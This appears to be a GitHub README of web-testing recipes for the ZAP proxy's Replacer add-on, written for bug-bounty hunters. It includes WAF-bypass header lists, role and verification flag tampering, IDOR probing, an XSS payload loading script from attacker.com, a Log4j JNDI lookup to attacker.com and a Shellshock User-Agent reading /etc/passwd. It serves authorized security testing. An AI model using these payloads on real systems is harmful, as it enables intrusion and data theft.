# Match and Replace ZAP

Useful Match and Replace ZAP rules.

Inspired by: <https://github.com/daffainfo/match-replace-burp>

**Note**: Where applicable each tip is accompanied by an expandable section, that contains a standalone JavaScript code snippet which adds the relevant Match-and-Replace rule in a disabled state. You'll need to go into Replacer's options to enable and use them. (Click the triangle/control to expand them.)

## Finding hidden buttons, forms, and other UI elements

Many sites contain hidden UI elements such as:

```html
<div aria-hidden="true"></div>
<div style="visibility: hidden;"></div>
<div style="display: none;"></div>
<script>document.getElementbyTagName("test").hidden=true</script>
<button type="button" disabled>test</button>
```

In ZAP these can be Revealed with standard functionality: <https://www.zaproxy.org/docs/desktop/addons/reveal/>, however should that not accommodate a particular bit of code/functionality you're encountering a Replacer rule can be leveraged to un-hide or re-enable the component.

- Show Hidden UI



<details>
<summary>Show Hidden UI Elements</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Show hidden UI elements", "", matchType.RESP_BODY_STR, "hidden", false, "hizzen", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Show display:none UI



<details>
<summary>Show display:none UI Elements</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Show display:hidden UI elements", "", matchType.RESP_BODY_STR, "display:none", false, "display:n0ne", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Change disable to enable



<details>
<summary>Change disable to enable</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Change disable to enable", "", matchType.RESP_BODY_STR, "disable", false, "enable", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Changing false to true

Sometimes it is possible to un-hide or re-enable functionality or UI components by simply changing `false` to `true`.
Here are some example scenarios:

- Changing role from normal user to admin



<details>
<summary>Change user role to admin</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Change user role to admin", "", matchType.RESP_BODY_STR, "admin: false", false, "admin: true", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Set email verified



<details>
<summary>Set email verified</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Set email verified", "", matchType.RESP_BODY_STR, "email_verify: false", false, "email_verify: true", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Bypass WAF

Bypassing WAF by adding some request headers.

- Adding `X-Forwarded-Host: 127.0.0.1`



<details>
<summary>Bypass WAF</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Bypass WAF", "", matchType.REQ_HEADER, "X-Forwarded-Host", false, "127.0.0.1", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

Other request headers/values which may assist in bypassing WAFs include (but are not limited to):

```text
X-Forwarded-Port: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-Scheme: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Cluster-Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Client-IP: 127.0.0.1
Origin: null
Origin: Domain.attacker.com
```

Note: Adding multiple headers might be easier with a:
- [Proxy Script](https://github.com/zaproxy/community-scripts/blob/main/proxy/WAF_Bypass.js)
or
- [HttpSender Script](https://github.com/zaproxy/community-scripts/tree/main/httpsender)

## Finding IDOR

For example changing a known UUID to another value:



<details>
<summary>Finding IDOR</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Finding IDOR", "", matchType.REQ_BODY_STR, "9364e9f8-7080-4852-b2ff-d21e2acee6", false, "d58f540d-bd7b-4b5c-ba2a-f82bbc1241d8", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Finding XSS

- Finding XSS on `Referer`


<details>
<summary>Finding XSS in Referer</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Finding XSS in Referer", "", matchType.REQ_HEADER, "Referer", false, "\"><script src=https://attacker.com></script>", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Automatically replace user input with an XSS payload



So by just inputting the string `xss_payload` on the website it will be immediately replaced with `"><script src=https://attacker.com></script>`.
Change the XSS payload as you see fit.

<details>
<summary>Easily replace XSS payload</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Easily replace XSS payload", "", matchType.REQ_BODY_STR, "xss_payload", false, "\"><script src=https://attacker.com></script>", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Misc

- Help companies to identify your traffic and separate it from malicious traffic by adding a custom header (ex: `X-Bug-Bounty`, or `X-Header-Hackerone`).



For example a header that: 
- includes your username: `X-Bug-Bounty: YourBBUsername` or email: `X-Bug-Bounty: user@domain.com`
- includes a unique or identifiable flag: `X-Bug-Bounty: ID-<sha256-flag>`

Source: <https://danaepp.com/why-the-x-bug-bounty-header-matters-for-hackers>

<details>
<summary>Add X-Bug-Bounty header</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Add XBB header", "", matchType.REQ_HEADER, "X-Bug-Bounty", false, "YourBBUsername", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>




<details>
<summary>Add hackerone header</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Add hackerone header", "", matchType.REQ_HEADER, "X-Header-Hackerone", false, "YourHackeroneUserName", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Setting the `User-Agent` (UA) or emulating a mobile browser.

In ZAP the User-Agent request header is controlled via Connection options. However, if you wanted to emulate a mobile browser in order to see the mobile UI of a target or perhaps discover some different functionality or behavior. You could change it to a Mobile UA: https://www.zaproxy.org/docs/desktop/addons/network/options/connection/#default-user-agent

For example: `Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1`

<https://www.whatismybrowser.com/guides/the-latest-user-agent/> is a good source for up-to-date User-Agent strings.

This could also be done with a Replacer rule.



<details>
<summary>Emulate iOS</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Emulate iOS", "", matchType.REQ_HEADER, "User-Agent", false, "Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Finding [CVE-2021-44228](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q)



<details>
<summary>Find CVE-2021-44228</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Replace User-Agent with Log4j Attack", "", matchType.REQ_HEADER, "User-Agent", false, "${jndi:ldap://attacker.com/x}", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Replace User-Agent with shellshock attack [CVE-2014-6271](https://github.com/advisories/GHSA-6hfc-grwp-2p9c)



<details>
<summary>Find CVE-2014-6271</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Replace User-Agent with shellshock attack", "", matchType.REQ_HEADER, "User-Agent", false, "(){:;};/bin/cat /etc/passwd", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>
